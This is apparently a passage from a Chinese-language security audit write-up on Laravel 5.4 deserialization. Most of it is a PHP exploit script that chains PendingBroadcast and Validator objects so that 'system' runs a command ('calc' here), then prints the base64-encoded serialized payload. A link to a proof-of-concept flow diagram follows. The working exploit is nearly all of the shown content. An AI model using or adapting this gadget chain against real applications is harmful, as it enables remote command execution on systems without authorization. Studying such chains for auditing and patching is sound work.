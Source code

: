 ### exp
```php
<?php
namespace Illuminate\Validation {
    class Validator {
       public $extensions = [];
       public function __construct() {
            $this->extensions = ['' => 'system'];
       }
    }
}

namespace Illuminate\Broadcasting {
    use  Illuminate\Validation\Validator;
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($cmd)
        {
            $this->events = new Validator();
            $this->event = $cmd;
        }
    }
    echo base64_encode(serialize(new PendingBroadcast('calc')));
}
?>
```


### POC链利用流程图
<img src="./Laravel5.4 反序列化代码审计/poc-2-2.png" alt="">
